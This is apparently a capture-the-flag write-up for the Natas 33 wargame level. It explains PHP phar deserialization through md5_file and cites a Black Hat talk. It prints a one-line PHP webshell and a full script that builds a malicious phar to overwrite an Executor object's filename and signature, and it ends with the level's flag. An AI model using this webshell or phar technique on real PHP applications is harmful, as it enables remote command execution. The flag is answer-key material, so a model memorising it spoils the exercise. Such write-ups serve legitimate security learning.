

There is a vuln that was shwen in black hat conference, in 2018, that can be found here [PHP Unserialization vuln - Black Hat](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf).

When we use the `phar` wrapper, there are several functions that `unserilized` the metadata, include `md5_file` function. 

So, if we'll supply `.phar` file, we can simply override the `Executor`, and then setting our own `signature` and `filename`. (I simply set the signature to `true`, because any string which isn't empty string equal to true, when comparing using `==` and not `===`).

So first, let's upload our webshell, which is called `webshell_770.php`:
```php
<?php system($_GET['cmd']); ?>
```


Then, we will create our `my_sol.phar` file, and upload it using the filename: `phar:///natas33/upload/my_sol.phar` 
(I want that it'll treat it as a phar archive)


```php
  <?php

  class Executor{
      private $filename="/natas33/upload/webshell_770.php";
      private $signature=true;
      private $init=False;

      function __construct(){}
      function __destruct(){}
    }
    // create new Phar
    $phar = new Phar('my_sol.phar');
    $phar->startBuffering();
    $phar->setStub('<?php __HALT_COMPILER(); ? >');
    $phar['bla'] = 'bla';

    $executor = new Executor();
    $phar->setMetadata($executor);
    $phar->stopBuffering();
?>
```

Now, we need to upload our `my_sol.phar`


And lastly, ask for `phar:///natas33/upload/my_sol.phar`


**Flag:** ***`j4O7Q7Q5er5XFRCepmyXJaWCSIrslCJY`*** 